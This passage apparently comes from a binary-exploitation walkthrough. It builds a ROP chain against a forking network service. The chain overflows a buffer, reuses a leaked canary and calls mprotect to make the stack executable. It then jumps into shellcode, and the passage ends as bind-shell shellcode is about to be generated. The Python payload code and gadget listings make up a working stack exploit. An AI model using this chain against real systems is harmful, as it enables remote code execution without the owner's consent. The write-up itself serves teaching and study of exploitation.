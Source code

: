 Here we can see our cyclic payload followed by a series of addresses that correspond to our ROP gadgets.  We can see that each of the `.text` segment addresses start with `0x7f15` as expected.  If you look closely, you'll see some other addresses that begin with `0x7ffd` instead - those are prime candidates for stack addresses.  We will want to play it safe here and offset our stack address to ensure it encompasses our overflowed buffer and shellcode, so I chose the address `0x7ffd78c10000`, and we will modify a large region from there using `mprotect`.  

### The final ROP chain + shellcode
To recap our plan, now that we have a good idea of where our stack is, we can attempt to modify a region in the stack to allow for code execution.  To do this, we will need to craft an `mprotect` syscall to modify the stack permissions, and then jump to a location within that modified region that includes shellcode.  This will all need to be done in one payload, as any modifications to the stack permissions will only exist in the current child process, and not persist between client connections.

We will need two additional ROP gadgets for this - one to populate RSI with a value we control, and one to jump to our shellcode:

```bash
0x000000000001a533: pop rsi; ret;
0x000000000007ac3d: jmp rsp;
```

Here's what the crafted ROP chain looks like:

```python
 payload2 = cyclic(264) + canary + (b'\x00' * 24)

 # Load 10 into RAX for mprotect syscall
 payload2 += p64(POP_RAX_RET)
 payload2 += p64(10)
 
 # We will be calling mprotect on a stack location we identified from the stack dump
 payload2 += p64(POP_RDI_RET)
 payload2 += p64(stack_addr)
 
 # modify a large region (0xfffff bytes!)
 payload2 += p64(POP_RSI_RET)
 payload2 += p64(0xfffff)
 
 # make the region RWX
 payload2 += p64(POP_RDX_RET)
 payload2 += p64(7)
 
 # Execute the syscall
 payload2 += p64(SYSCALL_RET)
 
 # Jump to the stack, which contains our shellcode
 payload2 += p64(JMP_RSP)
 payload2 += shellcode
```

For the shellcode, I opted to leverage pwntools [shellcraft](https://docs.pwntools.com/en/stable/shellcraft.html) function.  After setting some initial context, we can generate shellcode for a bind shell in one line:
